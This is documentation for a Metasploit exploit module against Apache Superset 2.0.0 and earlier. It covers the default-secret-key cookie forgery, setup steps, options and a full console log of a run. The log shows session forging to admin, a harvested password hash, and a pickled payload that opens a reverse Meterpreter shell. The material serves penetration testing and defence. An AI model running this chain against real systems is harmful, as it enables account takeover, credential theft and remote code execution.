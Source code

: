 ## Vulnerable Application

Apache Superset versions <= 2.0.0 utilize Flask with a known default secret key which is used to sign HTTP cookies.
These cookies can therefore be forged. If a user is able to login to the site, they can decode the cookie, set their user_id to that
of an administrator, and re-sign the cookie. This valid cookie can then be used to login as the targeted user. From there the
Superset database is mounted, and credentials are pulled. A dashboard is then created. Lastly a pickled python payload can be
set for that dashboard within Superset's database which will trigger the RCE.

An attempt to clean up ALL of the dashboard key values and reset them to their previous values happens during the cleanup phase.

### App Install

```
sudo docker run -p 8088:8088 --name superset apache/superset:2.0.0
sudo docker exec -it superset superset fab create-admin \
              --username admin \
              --firstname Superset \
              --lastname Admin \
              --email admin@superset.com \
              --password admin
sudo docker exec -it superset superset db upgrade
sudo docker exec -it superset superset init
```

Login to the app, click 'list users' under 'Settings', then click '+'. Make a new user with 'Public' as the role.

## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use exploit/linux/http/apache_superset_cookie_sig_rce`
1. Do: `set rhost [ip]`
1. Do: `set username [username]`
1. Do: `set password [password]`
1. Do: `run`
1. You should get a shell.

## Options

### USERNAME

The username to authenticate as. Required with no default.

### PASSWORD

The password for the specified username. Required with no default.

### ADMIN_ID

The ID of an admin account. Defaults to `1`

### SECRET_KEYS_FILE

A file containing secret keys to try. One per line. Defaults to `metasploit-framework/data/wordlists/superset_secret_keys.txt`

### DATABASE

Location on the target of the Superset database. Defaults to the Docker location `/app/superset_home/superset.db`

## Scenarios

### Apache Superset 2.0.0 on Docker

```
resource (superset_rce.rb)> use exploit/linux/http/apache_superset_cookie_sig_rce
[*] Using configured payload python/meterpreter/reverse_tcp
resource (superset_rce.rb)> set rhosts 127.0.0.1
rhosts => 127.0.0.1
resource (superset_rce.rb)> set verbose true
verbose => true
resource (superset_rce.rb)> set lhost 2.2.2.2
lhost => 2.2.2.2
resource (superset_rce.rb)> set username user
username => user
resource (superset_rce.rb)> set password user
password => user
resource (superset_rce.rb)> set proxies HTTP:127.0.0.1:8080
proxies => HTTP:127.0.0.1:8080
resource (superset_rce.rb)> set ReverseAllowProxy true
ReverseAllowProxy => true
resource (superset_rce.rb)> rexploit
[*] Reloading module...
[*] Started reverse TCP handler on 2.2.2.2:4444 
[*] Attempting login
[*] Grabbing CSRF token
[*] 127.0.0.1:8088 - CSRF Token: IjZmOTM2NTI4MmRmYjQyNDdkMGVmMmUxOGVjZDBhOWNmZTZiYWFmZGEi.ZQSodw.C7YXKC5pMw0rGvnJcqVT5ZFkXYQ
[*] 127.0.0.1:8088 - Attempting login
[+] 127.0.0.1:8088 - Logged in Cookie: session=.eJwNjUEKgzAQRa8SZh2KTa1Vb-Cu-yIyJjMxdIiQhJYi3r1ZPfjw_jtgYcG8UYbxdYAqFfDFFEP0oGGKH5TglOw-xIt6CmEmVdJPoce6wHzOul4kyhuMjJJJg82Jl7K_KcIIHQ-37m5643htTftwDbGha0_WNThYpm5FZIc1JrtFoepU8fwDUO8x4g.ZQSodw.VE5Y8HQDKavvXpMdUVnZrfqiokI;
[*] 127.0.0.1:8088 - Checking secret key: \x02\x01thisismyscretkey\x01\x02\\e\\y\\y\\h
[-] 127.0.0.1:8088 - Incorrect secret key: \x02\x01thisismyscretkey\x01\x02\\e\\y\\y\\h
[*] 127.0.0.1:8088 - Checking secret key: CHANGE_ME_TO_A_COMPLEX_RANDOM_SECRET
[+] 127.0.0.1:8088 - Found secret key: CHANGE_ME_TO_A_COMPLEX_RANDOM_SECRET
[*] 127.0.0.1:8088 - Modified cookie: {"_flashes"=>[{" t"=>["warning", "Invalid login. Please try again."]}], "_fresh"=>false, "csrf_token"=>"6f9365282dfb4247d0ef2e18ecd0a9cfe6baafda", "locale"=>"en", "user_id"=>1}
[*] 127.0.0.1:8088 - Attempting to resign with key: CHANGE_ME_TO_A_COMPLEX_RANDOM_SECRET
[*] 127.0.0.1:8088 - New signed cookie: eyJfZmxhc2hlcyI6W3siIHQiOlsid2FybmluZyIsIkludmFsaWQgbG9naW4uIFBsZWFzZSB0cnkgYWdhaW4uIl19XSwiX2ZyZXNoIjpmYWxzZSwiY3NyZl90b2tlbiI6IjZmOTM2NTI4MmRmYjQyNDdkMGVmMmUxOGVjZDBhOWNmZTZiYWFmZGEiLCJsb2NhbGUiOiJlbiIsInVzZXJfaWQiOjF9.ZQSodw.tqvbZGeoJr4hx6k8CVM_XA-_AAE
[+] 127.0.0.1:8088 - Cookie validated to user: admin
[*] Attempting to pull user creds from db
[+] Successfully created db mapping with id: 2
[*] Creating new sqllab tab
[+] Using tab: 2
[*] Setting latest query id
[*] Harvesting superset user creds
[+] Superset Creds
==============

  Username  Password
  --------  --------
  admin     $pbkdf2-sha256$260000$R203aXBtQVh3ZUlFVmREdQ$/Sivpafs38x.LXzDbxhSsvjfZC5pKpuPONqzOWnsgrk

[*] Attempting RCE
[*] Creating new dashboard
[+] New Dashboard id: 2
[*] Grabbing permalink to new dashboard to trigger payload later
[+] Dashboard permalink key: aojEJOPXQyB
[*] Grabbing values to reset later
[*] Setting latest query id
[*] Setting latest query id
[*] Uploading payload
[*] Triggering payload
[*] Sending stage (24772 bytes) to 1.1.1.1
[*] Meterpreter session 1 opened (2.2.2.2:4444 -> 1.1.1.1:57716) at 2023-09-15 14:54:49 -0400
[*] Unsetting RCE Payloads
[*] Restoring row ID 1
[*] Setting latest query id
[+] Successfully restored
[*] Restoring row ID 3
[*] Setting latest query id
[+] Successfully restored
[*] Deleting dashboard
[*] Deleting sqllab tab
[*] Deleting database mapping

meterpreter > getuid
Server username: superset
meterpreter > sysinfo
Computer        : 2f7ff4a15c36
OS              : Linux 6.4.0-kali3-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.4.11-1kali1 (2023-08-21)
Architecture    : x64
System Language : C
Meterpreter     : python/linux
```
